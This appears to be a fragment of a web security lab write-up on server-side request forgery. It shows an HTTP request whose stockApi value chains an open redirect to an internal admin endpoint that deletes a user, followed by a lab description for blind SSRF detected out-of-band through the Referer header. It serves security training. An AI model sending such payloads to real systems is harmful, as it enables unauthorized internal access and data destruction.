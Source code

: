 ![img](media/9864a9641e4750f2e3740afe6e3fbe2c.png)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /product/stock HTTP/2
...

stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin/delete?username=carlos
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/f7b00227048921a8bbd763bce644f15c.png)

05 Blind SSRF with out-of-band detection
========================================

This site uses analytics software which fetches the URL specified in the Referer
header when a product page is loaded.

To solve the lab, use this functionality to cause an HTTP request to the public
Burp Collaborator server.

Note: To prevent the Academy platform being used to attack third parties, our
firewall blocks interactions between the labs and arbitrary external systems. To
solve the lab, you must use Burp Collaborator's default public server.

References:
